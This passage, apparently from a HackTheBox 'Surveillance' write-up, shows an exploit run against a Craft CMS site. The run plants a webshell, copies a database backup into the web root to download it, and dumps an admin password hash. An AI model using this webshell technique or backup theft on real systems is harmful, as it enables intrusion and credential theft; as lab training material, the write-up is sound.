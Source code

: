 ```bash

> ls
cpresources
css
fonts
images
img
index.php
js
shell.php
web.config

> 
```
{: .nolineno}

An `sql` file was found at `/var/www/html/craft/storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip`, containing sensitive data, including password hashes.

I immediately copy the `zip` file into the website location like this and downloaded it through website ->
```bash
┌──(kali🔥kali)-[~/Downloads/HTB/Surveillance]
└─$ python3 exploit.py http://surveillance.htb/
[+] Executing phpinfo to extract some config infos
temporary directory: /tmp
web server root: /var/www/html/craft/web
[+] create shell.php in /tmp
[+] trick imagick to move shell.php in /var/www/html/craft/web

[+] Webshell is deployed: http://surveillance.htb//shell.php?cmd=whoami
[+] Remember to delete shell.php in /var/www/html/craft/web when you are done

[!] Enjoy your shell

> cp ../storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip .

> ls
cpresources
css
fonts
images
img
index.php
js
shell.php
surveillance--2023-10-17-202801--v4.4.14.sql.zip
web.config
```
{: .nolineno}
I got this sql data from this file that contains the password hash of matthew ⏬ 
```sql

--
-- Dumping data for table `users`
--

LOCK TABLES `users` WRITE;
/*!40000 ALTER TABLE `users` DISABLE KEYS */;
set autocommit=0;
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
```